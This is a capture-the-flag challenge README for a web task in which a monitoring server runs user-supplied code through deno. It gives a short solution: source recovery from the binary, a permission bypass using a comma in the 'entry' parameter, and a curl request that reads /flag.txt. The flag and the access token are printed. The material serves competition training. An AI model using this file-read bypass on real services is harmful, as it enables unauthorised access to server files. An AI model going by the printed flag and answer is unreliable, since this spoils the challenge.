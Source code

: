 # web | monitoring

## Information

Нам удалось вчёрную получить на руки некоторые из сервисов, встроенных в различные компоненты Megalith, но, к сожалению, только в бинарном виде. В частности, нам достался какой-то из серверов системы мониторинга за населением Metra Veehkim, может получиться как-нибудь разобраться с ним и выяснить, какие данные о нас собирают Арбалеты?

[https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru](https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
MONITORING_FLAG="ctfcup{flag}" docker compose -p rev-monitoring up --build -d
```

## Public

Provide zip file: [public/monitoring.zip](public/monitoring.zip).

## TLDR

Find source code at the end of the file (e.g using `rabin2 -zzz`), extract it, perform simple reverse engineering (as usual the obfuscation basically stores all strings in an array).

The app executes our code from the "cmd" parameter using deno, and you can specify the entry to read using the "entry" parameter:

```js
const command = Bun.spawn(
  ["/usr/bin/deno", "run", `--allow-read=./${entry}`, cmdPath],
  {
    stderr: "ignore",
    cwd: "entries",
    env: {},
  }
);
```

However, ".." is banned in entry, but you can simply specify a second path using a comma in order to get read access to the root.

```sh
curl http://localhost:1984 -i -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" --data-raw '{"cmd":"console.log(new TextDecoder().decode(Deno.readFileSync(\"/flag.txt\")))","entry":"/,/"}'
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{t00-m4ny-su55y-jS-runt1m3s-f7cc17249450a7fb}
